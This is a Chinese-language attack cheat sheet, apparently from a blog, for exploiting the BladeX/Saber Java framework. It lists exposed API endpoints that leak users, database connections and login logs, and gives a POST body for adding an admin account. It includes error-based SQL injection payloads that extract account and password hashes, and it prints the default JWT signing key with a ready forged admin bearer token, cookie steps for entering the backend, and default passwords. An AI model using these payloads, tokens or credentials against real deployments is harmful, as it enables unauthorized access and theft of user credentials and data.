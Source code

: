 <https://blog.csdn.net/2301_80115097/article/details/141209675>
ico图标是🗡剑。
url里有/blade-特征。Saber框架。

官方demo：<https://saber3.bladex.cn/>
官方安全指南：<https://www.kancloud.cn/smallchill/blade-safety/3234105>
开发标准，未授权接口：
<https://www.kancloud.cn/smallchill/blade/1234959> 
<https://www.kancloud.cn/smallchill/blade/3198976>
在application.yml中配置

漏洞，以下主要是获取jwt后能操作。
```
/api/blade-user/user-list（用户账号密码）
/api/blade-auth/oauth/captcha
/api/blade-system/user/user-list
/api/blade-develop/datasource/list（泄露数据库连接）
/api/blade-log/api/list（泄露登录日志，包含登录用户名密码，可能翻倒明文）如果鉴权用注册账户来鉴权低权限访问。
/api/blade-log/logApi/list
/api/blade-test/



/api/blade-system/param/list 参数


/api/blade-user/submit（新增用户）post请求


{
"account": "admin1234",
"name": "GuestUser",
"password": "123456",
"tenantId": "000000",
"roleId": "1123598816738675201",
"deptId": "1123598816738675201",
"postId": "1123598816738675201"
}



{
"account": "admin123",
"name": "GuestUser",
"password": "123456by",
"tenantId": "000000",
"roleId": "1123598821738675201",
"deptId": "1123598821738675201",
"postId": "1123598821738675201",
   "roleId": "1123598816738675201",
        "deptId": "1123598813738675201",
        "postId": "0,1123598817738675201,",
        "mallId": 1,
        "companyId": "1628233399939338241",
        "tenantId": 501654
}



/api/blade-resource/oss/list（oss配置信息）

/api/blade-user/list
GET /api/blade-user/list?size=100\&current=2
/api/blade-user/list?updatexml(1,concat(0x7e,version(),0x7e),1)=1
/api/blade-user/list?updatexml(1,concat(0x7e,database(),0x7e),1)=1

/api/blade-log/error/list?updatexml(1,concat(0x7e,version(),0x7e),1)=1

/api/blade-system/menu/menu-list?updatexml(1,concat(x7e,md5(20240729),x7e),1)=1
/api/blade-system/dict-biz/list?updatexml(1,concat(0x7e,md5(1),0x7e),1)=1

post
/api/blade-desk/notice/list?updatexml(1,concat(0x7e,user(),0x7e),1)=1
```

^
## **jwt的密钥未改**
默认
```
bladexisapowerfulmicroservicearchitectureupgradedandoptimizedfromacommercialproject
```
因此存在以下通用jwt
```
Blade-Auth: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0ZW5hbnRfaWQiOiIwMDAwMDAiLCJ1c2VyX25hbWUiOiJhZG1pbiIsInJlYWxfbmFtZSI6IueuoeeQhuWRmCIsImF1dGhvcml0aWVzIjpbImFkbWluaXN0cmF0b3IiXSwiY2xpZW50X2lkIjoic2FiZXIiLCJyb2xlX25hbWUiOiJhZG1pbmlzdHJhdG9yIiwibGljZW5zZSI6InBvd2VyZWQgYnkgYmxhZGV4IiwicG9zdF9pZCI6IjExMjM1OTg4MTc3Mzg2NzUyMDEiLCJ1c2VyX2lkIjoiMTEyMzU5ODgyMTczODY3NTIwMSIsInJvbGVfaWQiOiIxMTIzNTk4ODE2NzM4Njc1MjAxIiwic2NvcGUiOlsiYWxsIl0sIm5pY2tfbmFtZSI6IueuoeeQhuWRmCIsIm9hdXRoX2lkIjoiIiwiZGV0YWlsIjp7InR5cGUiOiJ3ZWIifSwiYWNjb3VudCI6ImFkbWluIn0.RtS67Tmbo7yFKHyMz_bMQW7dfgNjxZW47KtnFcwItxQ


修改两个cookie直接进后台
saber-access-token
saber-refresh-token
/#/tool/datasource
```


## **sql注入注出密码**
<https://mp.weixin.qq.com/s?__biz=Mzg5NjU3NzE3OQ==&mid=2247490068&idx=1&sn=63a2427fb762c5e96aef490cf6b47637&chksm=c1fe240aa318297d960cff7945596779134ddc905d952623cba9ef024297fb15a693c279cb9f&mpshare=1&scene=23&srcid=0906trPOxcLTicx2WgtRTsOg&sharer_shareinfo=6cf2fed374261ab2e9a841a942b83ced&sharer_shareinfo_first=6cf2fed374261ab2e9a841a942b83ced#rd>

^
1-updatexml(1,concat(0x7e,database(),0x7e),1)=1

或者

1-extractvalue(1,concat(0x7e,database(),0x7e))=1

得到数据库名

![null](https://wiki.shikangsi.com/media/images/2024/08/23/d62ddc12-fef6-4cdf-aae0-4889a1959325-A9yJpugc.png)

注入出密码
```
/**/1/**/-extractvalue(1,concat(0x7e,database(),0x7e))=1

/**/1/**/-updatexml(1,concat(0x7e,(select+group_concat(account,0x7e,password)+from+数据库名.blade_user),1),1)=1

1-extractvalue(1,concat(0x7e,(select+group_concat(account,0x7e,password)+from+数据库名.blade_user),1))=1

图里用的 /**/代替空格，用+号也可以

注入blade_log_api表的params参数、
或者blade_log_error表的，可能有明文密码。
```


^
## **默认密码**
```
默认有账户admin
默认密码123456
10470c3b4b1fed12c3baac014be15fac67c6e815

密码123456by
709d88462910f1e2a71d4377000fb5e87bc463f7

```